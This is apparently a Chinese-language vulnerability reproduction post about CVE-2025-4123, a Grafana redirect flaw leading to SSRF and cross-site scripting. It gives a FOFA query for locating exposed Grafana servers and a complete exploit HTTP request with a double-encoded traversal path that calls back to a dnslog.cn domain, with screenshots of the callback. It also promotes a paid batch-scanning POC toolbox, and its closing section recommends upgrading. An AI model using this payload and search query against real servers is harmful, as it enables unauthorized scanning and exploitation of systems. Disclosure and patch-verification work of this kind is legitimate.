 #  Grafan存在url重定向&服务端请求伪造漏洞CVE-2025-4123 附POC  
2025-6-13更新  南风漏洞复现文库   2025-06-13 15:27  
  
   
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Grafan简介  
  
微信公众号搜索：南风漏洞复现文库  
该文章 南风漏洞复现文库 公众号首发  
  
Grafana  
## 2.漏洞描述  
  
Grafana 是一个开源的数据可视化与监控平台，主要用于将复杂的时序数据、日志和指标转化为直观的图表和仪表盘，帮助用户实时监控系统性能、分析业务指标及故障排查。在受漏洞影响的版本中。在受漏洞影响的版本中，由于static.go在处理静态资源重定向逻辑时，未对原始URL路径进行处理，导致可以通过重定向到托管将执行任意 JavaScript 的前端插件的网站，执行恶意的js文件，导致跨站脚本漏洞形成。修复的版本通过对redirectPath进行Clean操作，预先处理了URL重定向路径中的非法操作，避免了由于重定向导致XSS漏洞的触发。  
  
CVE编号:CVE-2025-4123  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Grafana  
  
![Grafan存在url重定向&服务端请求伪造漏洞](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gibxnXjhKxialUA4QCsfHibdIDs984DM6NxviayC48PHXxuKWgfk5uLbItg/640?wx_fmt=png&from=appmsg "null")  
  
Grafan存在url重定向&服务端请求伪造漏洞  
## 4.fofa查询语句  
  
app="Grafana"  
## 5.漏洞复现  
  
漏洞链接：https://xx.xx.xx.x/render/public/..%252f%255Clejpkpvtwwowwjpp.168ct5.dnslog.cn%252f%253F%252f..%252f..  
  
漏洞数据包：  
```
GET /render/public/..%252f%255C52.59.176.239.00y9d0.dnslog.cn%252f%253F%252f..%252f.. HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Encoding: gzip, deflate
User_Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.4 (KHTML, like Gecko) Chrome/22.0.1229.79 Safari/537.4
Host: xx.xx.xx.xx
Connection: close


```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gjdb5NHylTf05bTDbqpZL58LAXiaeTOSYoBf79OTFPibK6AYpwGryr36A/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
dnslog平台接受到信息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gQ0C8BicwWI3EwyfE6CL5FhMjCAEVkwUQoF3sQ3iasU1oVvcnLxeJEmtw/640?wx_fmt=png&from=appmsg "null")  
  
## 6.POC&EXP  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。  
2: 免登录，免费fofa查询。  
3: 更新其他实用网络安全工具项目。  
4: 免费指纹识别，持续更新指纹库。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7g14Wh9GQBSfGZXT2YHjWR1bg8mcq3qdeARVIqDOPA3MS8e5Y53BB0icQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7g4YFBRh0VbRiakGCH85q3TDNFluVZM8NMovN9EArcMb6UPmmok9Dib5Aw/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gj4iaQo8icPKzTNahYUh8fjUibS03YWuHO06NYk0xjoOibZKfrbK8aqPicuA/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7ga9XjKtkr2oG8Gj3Y0kWrfibWPmbH9P9GHJoSP1wA5nTXQNVmnWNkZcQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3ZjuTTSLGRW8ciat8oLicicP7gG4jJTNuPqjzuZwa7t8klrgS8nmsb6vJ4d12ib62TQYrPLrYXErMHSEA/640?wx_fmt=jpeg&from=appmsg "null")  
  
## 7.整改意见  
  
将组件 grafana 升级至 12.0.0+security-01 及以上版本  
## 8.往期回顾  
  
  
   
  
  
  
